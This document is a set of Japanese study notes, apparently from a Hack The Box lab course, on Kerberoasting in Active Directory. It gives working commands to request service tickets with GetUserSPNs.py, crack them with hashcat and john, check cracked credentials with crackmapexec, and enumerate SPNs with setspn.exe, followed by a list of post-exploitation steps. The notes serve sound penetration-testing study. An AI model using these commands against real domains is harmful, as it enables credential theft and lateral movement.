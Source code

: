 グループメンバーシップの確認も重要
- Kerberoastingで取得したチケットの中には、一見目立たないけど権限的に重要なアカウントが含まれていることもある
- たとえば、明らかに特権的でないアカウントでも、調べてみると管理者グループに所属していたり、サーバー複数台に対して管理権限を持っていたりするケースも。
- なので、SPNが付与されているすべてのアカウントのグループメンバーシップを確認することは、Kerberoastingにおいて非常に重要なステップ

**すべてのTGSチケットを取得する**
- SPNアカウントの一覧が取得できたら、次はそれらのアカウントが持っているTGSチケットを取得する
```sh
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request -outputfile tgs_tickets
```

**特定のアカウントのTGSチケットを取得する**
```sh
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile tgs_tickets
```
- 複数のチケットを一括で取得する場合などは、`-outputfile`フラグを使ってファイルに保存しておくと便利

**取得したKerberosのTGS-REP形式のクラック**
hashcat
```sh
$ hashcat -m 13100 tgs_tickets /usr/share/wordlists/rockyou.txt
```

john
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt tgs_tickets
```

クラックできた認証情報を使ってDCにアクセスできるかの確認
```sh
$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

**この後できること（ポストエクスプロイト）**
ここまで来たら、以下のようなことも可能になる
- ドメイン全体の**設定や構成の調査**
- 他の**脆弱性や設定ミスの列挙**
- **権限移譲の確認**や、他のアカウントへの**横展開（ラテラルムーブメント）**
- 重要なデータやシステムへのアクセス試行
つまり、Kerberoastingはゴールではなく、次の侵害フェーズの入り口でもある


## Windows
### setspn.exe

**SPNを列挙する**
- マシンアカウントは無視する
```cmd
C:\htb> setspn.exe -Q */*

<SNIP>
CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SPSJDB.inlanefreight.local:1433
<SNIP>  
```
